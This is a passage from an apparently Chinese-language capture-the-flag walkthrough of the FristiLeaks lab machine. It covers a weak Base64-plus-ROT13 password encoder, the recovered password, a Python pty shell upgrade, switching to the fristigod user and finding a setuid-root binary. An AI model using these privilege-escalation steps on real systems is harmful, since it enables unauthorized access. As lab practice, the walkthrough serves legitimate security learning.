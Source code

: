 ```python
            else:
                writefile("executing: "+line)
                result =os.popen(line).read()
                writefile(result)
        else:
            writefile("command did not start with /home/admin or /usr/bin")
```

`cryptpass.py`

```python
#Enhanced with thanks to Dinesh Singh Sikawar @LinkedIn
import base64,codecs,sys

def encodeString(str):
    base64string= base64.b64encode(str)
    return codecs.encode(base64string[::-1], 'rot13')

cryptoResult=encodeString(sys.argv[1])
print cryptoResult
```

先是Base64编码，然后是ROT13编码。最后，它打印出编码后的结果

`whoisyourgodnow.txt`

> =RFn0AKnlMHMPIzpyuTI0ITG

![image-20241108204617477](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241108204617477.png)

`LetThereBeFristi!`

登录用户`fristigod`

```bash
sh-4.1$ su fristigod
su fristigod
standard in must be a tty
sh-4.1$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.1$ su fristigod
su fristigod
Password: LetThereBeFristi!

bash-4.1$ id
id
uid=502(fristigod) gid=502(fristigod) groups=502(fristigod)
```

```bash
bash-4.1$ ls -al
ls -al
total 16
drwxr-x---   3 fristigod fristigod 4096 Nov 25  2015 .
drwxr-xr-x. 19 firefart  root      4096 Nov 19  2015 ..
-rw-------   1 fristigod fristigod 1026 Nov  8 07:25 .bash_history
drwxrwxr-x.  2 fristigod fristigod 4096 Nov 25  2015 .secret_admin_stuff
bash-4.1$ cd .secret_admin_stuff
cd .secret_admin_stuff
bash-4.1$ ls
ls
doCom
bash-4.1$ ls -la
ls -la
total 16
drwxrwxr-x. 2 fristigod fristigod 4096 Nov 25  2015 .
drwxr-x---  3 fristigod fristigod 4096 Nov 25  2015 ..
-rwsr-sr-x  1 firefart  root      7529 Nov 25  2015 doCom
```